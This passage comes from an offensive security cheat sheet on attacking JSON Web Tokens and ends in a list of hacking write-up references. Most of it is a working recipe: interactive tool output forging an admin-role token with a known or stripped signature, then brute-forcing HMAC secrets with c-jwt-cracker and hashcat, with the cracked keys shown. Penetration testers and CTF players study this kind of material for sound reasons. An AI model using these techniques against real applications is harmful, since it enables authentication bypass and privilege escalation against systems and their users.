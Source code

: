 Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the keylength:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

### JWT cracker

```bash
git clone https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Secret is "Sn1f"
```

### Hashcat

> Support added to crack JWT (JSON Web Token) with hashcat at 365MH/s on a single GTX1080 - [src](https://twitter.com/hashcat/status/955154646494040065)

```bash
/hashcat -m 16500 hash.txt -a 3 -w 3 ?a?a?a?a?a?a
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMj...Fh7HgQ:secret
```

## References

- [Hacking JSON Web Token (JWT) - Hate_401](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)
- [WebSec CTF - Authorization Token - JWT Challenge](https://ctf.rip/websec-ctf-authorization-token-jwt-challenge/)
- [Privilege Escalation like a Boss - October 27, 2018 - janijay007](https://blog.securitybreached.org/2018/10/27/privilege-escalation-like-a-boss/)
- [5 Easy Steps to Understanding JSON Web Token](https://medium.com/vandium-software/5-easy-steps-to-understanding-json-web-tokens-jwt-1164c0adfcec)
- [Hacking JSON Web Tokens - From Zero To Hero Without Effort - Websecurify Blog](https://blog.websecurify.com/2017/02/hacking-json-web-tokens.html)
- [HITBGSEC CTF 2017 - Pasty (Web) - amon (j.heng)](https://nandynarwhals.org/hitbgsec2017-pasty/)
- [Critical vulnerabilities in JSON Web Token libraries - March 31, 2015 - Tim McLean](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries//)
- [Learn how to use JSON Web Tokens (JWT) for Authentication - @dwylhq](https://github.com/dwyl/learn-json-web-tokens)
- [Simple JWT hacking - @b1ack_h00d](https://medium.com/@blackhood/simple-jwt-hacking-73870a976750)